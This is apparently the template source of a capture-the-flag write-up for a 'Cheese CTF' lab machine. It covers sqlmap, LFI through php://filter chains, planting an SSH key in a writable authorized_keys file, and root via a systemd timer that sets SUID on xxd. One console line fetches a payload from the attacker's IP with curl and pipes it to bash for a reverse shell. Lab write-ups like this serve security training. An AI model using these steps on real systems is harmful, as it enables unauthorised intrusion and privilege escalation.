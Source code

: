 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("Running an Nmap scan yields a lot, and I mean a lot of open ports. Almost all of them are not meaningful and are there to throw us off.")}}

{{text("Ports that we should focus on are:")}}

{{list(['22 (SSH)', '80 (HTTP)'])}}

{{text("Upon visiting port 80, we are presented with a cheese shop page.")}}

{{image("../../static/writeups/cheesectf/images/000001.jpg")}}

{{header("Admin page", "admin-page")}}

{{text("There is also a login page.")}}

{{image("../../static/writeups/cheesectf/images/000002.jpg")}}

{{text("We should test if <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>SQL Injection</code> will work on this form.")}}

{{text("We catch the request using Burp Suite and then try to use it in SQLMap.")}}

{{image("../../static/writeups/cheesectf/images/000003.jpg")}}

{{console("sqlmap -r request.txt", "...
got a 302 redirect to 'http://10.10.229.61/secret-script.php?file=supersecretadminpanel.html'. Do you want to follow? [Y/n]
...")}}

{{text("We can see that SQLMap got redirected to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>?file=supersecretadminpanel.html</code>. We can try to go to this URL.")}}

{{image("../../static/writeups/cheesectf/images/000004.jpg")}}

{{text("We access the admin panel for the website.")}}

{{image("../../static/writeups/cheesectf/images/000004.jpg")}}

{{header("Shell as www-data", "shell-as-www-data")}}

{{text("There is an interesting <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>?file</code> parameter together with <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>php://filter</code>.")}}

{{image("../../static/writeups/cheesectf/images/000005.jpg")}}

{{text("While trying to read about PHP filters and how to exploit them, I stumbled upon this:")}}

{{link("https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#lfi--rfi-using-wrappers", "../../static/writeups/images/github.jpg", "LFI / RFI using php://filter wrappers")}}

{{text("We are instructed to use a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>php filter chain generator</code> to generate a PHP chain, which we could use to achieve RCE.")}}

{{link("https://github.com/synacktiv/php_filter_chain_generator", "../../static/writeups/images/github.jpg", "PHP filter chain generator")}}

{{text("We get the Python file and begin constructing our reverse shell.")}}

{{text("We get a reverse shell from <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>revshells.com</code> and save it in a file.")}}

{{image("../../static/writeups/cheesectf/images/000006.jpg")}}

{{text("We then generate a PHP filter chain that will download our reverse shell and execute it.")}}

{{console("python3 php_filter_chain_generator.py --chain '<?= curl -s -L 10.9.4.147/payload|bash ?>'", "
[+] The following gadget chain will generate the following code : <?= curl -s -L 10.9.4.147/payload|bash ?>
(base64 value: PD89IGBjdXJsIC1zIC1MIDEwLjkuNC4xNDcvcGF5bG9hZHxiYXNoYCA/Pg) php://filter/...")}}

{{text("We set up a netcat listener on the correct port and paste our generated chain into the URL.")}}

{{text("If we did everything correctly, we should now have a reverse shell.")}}

{{image("../../static/writeups/cheesectf/images/000007.jpg")}}

{{header("Shell as comte", "shell-as-comte")}}

{{text("While browsing through the files, we go into <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/home/comte/.ssh</code> and discover that the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>authorized_keys</code> file is writable by us.")}}

{{image("../../static/writeups/cheesectf/images/000008.jpg")}}

{{text("We just need to add our SSH key into this file, and we will be able to log in as the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>comte</code> user.")}}

{{text("Back on our machine, we generate a set of SSH keys.")}}

{{console("ssh-keygen -t rsa", "Generating public/private rsa key pair.
Enter file in which to save the key (/home/user/.ssh/id_rsa): /home/user/php_filter_chain_generator/id_rsa
Enter passphrase (empty for no passphrase):
...")}}

{{text("We copy our <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>id_rsa.pub</code> key and paste it into the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>authorized_keys</code> file.")}}

{{image("../../static/writeups/cheesectf/images/000009.jpg")}}

{{text("We can now log in as user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>comte</code> by providing our <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>id_rsa</code> file.")}}

{{console("ssh comte@10.10.41.67 -i id_rsa", "The authenticity of host '10.10.41.67 (10.10.41.67)' can't be established.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.41.67' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.6 LTS GNU/Linux 5.4.0-174-generic x86_64 ...")}}


{{text("We are able to read the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>user.txt</code> flag now.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("Running <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>sudo -l</code> reveals a lot of useful information.")}}

{{console("sudo -l", "User comte may run the following commands on cheesectf: 
(ALL) NOPASSWD: /bin/systemctl daemon-reload 
(ALL) NOPASSWD: /bin/systemctl restart exploit.timer 
(ALL) NOPASSWD: /bin/systemctl start exploit.timer 
(ALL) NOPASSWD: /bin/systemctl enable exploit.timer")}}

{{text("If we read the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/etc/systemd/system/exploit.service</code> service, we see that it copies <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>xxd</code> to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/opt</code> and adds a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>SUID bit</code> to it.")}}

{{text("If we try to run <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>exploit.timer</code>, it fails.")}}

{{text("This is because the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>OnBootSec</code> value is not present in the file.")}}

{{text("We have to modify it for it to run.")}}

{{image("../../static/writeups/cheesectf/images/000010.jpg")}}

{{text("Now, after running the service, a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>SUID bit</code> should have been added to the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>xxd</code> binary.")}}

{{text("We can use the method from <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>GTFObins</code> to read the flag.")}}

{{link("https://gtfobins.github.io/gtfobins/xxd/#file-read", "https://gtfobins.github.io/assets/logo.png", "xxd | GTFObins")}}

{{image("../../static/writeups/cheesectf/images/000011.jpg")}}

{{script()}}